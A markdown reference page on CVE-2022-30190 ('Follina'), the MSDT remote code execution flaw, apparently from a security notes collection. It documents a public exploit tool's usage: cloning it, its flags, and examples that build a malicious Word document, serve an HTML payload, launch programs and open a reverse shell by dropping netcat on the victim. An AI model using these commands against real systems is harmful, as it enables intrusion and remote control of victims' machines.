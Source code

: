 # CVE-2022-30190

CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability ‘Follina’.

CVE-2022-30190 is a remote code execution vulnerability that exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights.

## Installation

```bash
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```bash
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```bash
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop **calc.exe**:

```bash
$ python3 follina.py
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop **notepad.exe**:

```bash
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. Note, this downloads a netcat binary onto the victim and places it in **C:\Windows\Tasks**. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.

```bash
python3 follina.py -r 9001
```

![Folina example](../assets/images/folina-example.png)

## References

- [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
- [YouTube.com - let’s play with a ZERO-DAY vulnerability ‘follina’](https://www.youtube.com/watch?v=3ytqP1QvhUc)
- [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
- [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
- [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT ‘Follina’ Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
- [Huntress.com - Rapid Response: Microsoft Office RCE - ‘Follina’ MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
